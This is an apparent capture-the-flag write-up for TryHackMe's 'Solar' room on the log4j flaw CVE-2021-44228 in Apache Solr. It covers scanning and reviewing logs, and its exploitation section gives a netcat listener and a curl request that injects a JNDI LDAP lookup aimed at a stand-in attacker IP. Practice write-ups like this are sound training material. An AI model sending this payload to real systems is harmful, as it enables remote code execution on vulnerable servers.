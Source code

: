 [Solar, exploiting log4j - TryHackMe](https://tryhackme.com/room/solar) | Cya-nyde
============================================================

Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun.

## Credits

- Room created by [JohnHammond](https://tryhackme.com/p/JohnHammond) and [tryhackme](https://tryhackme.com/p/tryhackme)
- Room type: Free

## Recon

- Initial recon performed using nmap
- **sV** and **-p-** flags are used to ensure all ports are covered and their service versions listed
- **-T 5** option is added to increase speed at the cost of stealth (since this is a practice room)
- Optionally, add **-v** or **-vv** to increase verbosity

`nmap -sV -p- -T 5 <target ip>`

We get this as output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
8983/tcp open  http    Apache Solr
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### What service is running on port 8983? (Just the name of the software)

> **Apache Solr** is running on port 8983

## Discovery

We can visit the service running on port 8983 directly in a web browser

### Take a close look at the first page visible when navigating to http://x.x.x.x:8983. You should be able to see clear indicators that log4j is in use within the application for logging activity. What is the `-Dsolr.log.dir` argument set to, displayed on the front page?

> The following snippet can be seen on the front page of the portal: <code>-Dsolr.log.dir=**/var/solr/logs**</code>

### One file has a significant number of INFO entries showing repeated requests to one specific URL endpoint. Which file includes contains this repeated entry? (Just the filename itself, no path needed)

- This room gives us a zip file of task files to use
- Looking through each of them, we can find one that has an abnormal amount of INFO entries

> Upon reading through the **solr.log** file, we can see these INFO entries

### What "path" or URL endpoint is indicated in these repeated entries?

Snippet of log:

```
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
```

> The path referenced in these entries is **/admin/cores**

### Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)

> The **params** field with empty brackets indicates that we could affect the input

## Exploitation

- Open a netcat listener using `nc -lvnp <port of your choice>`
- Use curl to exploit target
    - `curl 'http://x.x.x.x:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:PORT\}'`
- This confirms that we are able to exploit the server, but the room gives us a more detailed attack chain

### What is the output of running this command? (You should leave this terminal window open as it will be actively awaiting connections)

## Persistence

### What user are you?

